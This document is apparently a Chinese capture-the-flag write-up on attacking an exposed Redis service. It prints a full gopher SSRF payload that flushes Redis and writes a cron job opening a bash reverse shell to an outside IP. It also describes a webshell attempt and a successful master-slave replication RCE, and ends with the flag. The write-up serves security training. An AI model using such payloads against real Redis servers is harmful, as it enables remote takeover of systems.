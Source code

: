 ```
146.56.235.172:6379
```

1. 该题目开放端口为6379，判断为redis，尝试使用redis相关漏洞进行攻击

2. 先利用web1的ssrf结合gopher协议进行反弹shell，最终失败

   1. 服务器开启监听

   ![image-20241026231657015](assets/image-20241026231657015.png)

   2. 脚本生成payload

   ![image-20241026231937110](assets/image-20241026231937110.png)

   ![image-20241026232000449](assets/image-20241026232000449.png)

   ```
   gopher://146.56.235.172:6379/_%2A1%0D%0A%248%0D%0Aflushall%0D%0A%2A3%0D%0A%243%0D%0Aset%0D%0A%241%0D%0A1%0D%0A%2464%0D%0A%0A%0A%0A%0A%2A/1%20%2A%20%2A%20%2A%20%2A%20bash%20-i%20%3E%26%20/dev/tcp/113.45.142.235/8888%200%3E%261%0A%0A%0A%0A%0D%0A%2A4%0D%0A%246%0D%0Aconfig%0D%0A%243%0D%0Aset%0D%0A%243%0D%0Adir%0D%0A%2415%0D%0A/var/spool/cron%0D%0A%2A4%0D%0A%246%0D%0Aconfig%0D%0A%243%0D%0Aset%0D%0A%2410%0D%0Adbfilename%0D%0A%244%0D%0Aroot%0D%0A%2A1%0D%0A%244%0D%0Asave%0D%0A
   ```

   3. 在存在ssrf漏洞处进行反弹shell，最终失败

      ![image-20241026232137471](assets/image-20241026232137471.png)

3. 再利用redis-cli直接连接，将Webshell写入变量，发现不能爆破出网站绝对路径，无法将变量保存到指定路径中，故失败

4. 利用redis-rce，进行主从复制漏洞复现，成功反弹shell

![image-20241026231458503](assets/image-20241026231458503.png)

![image-20241026231532311](assets/image-20241026231532311.png)

```
meetsec1{672728e3bde3f4cc2b59de572b4df6d6}
```

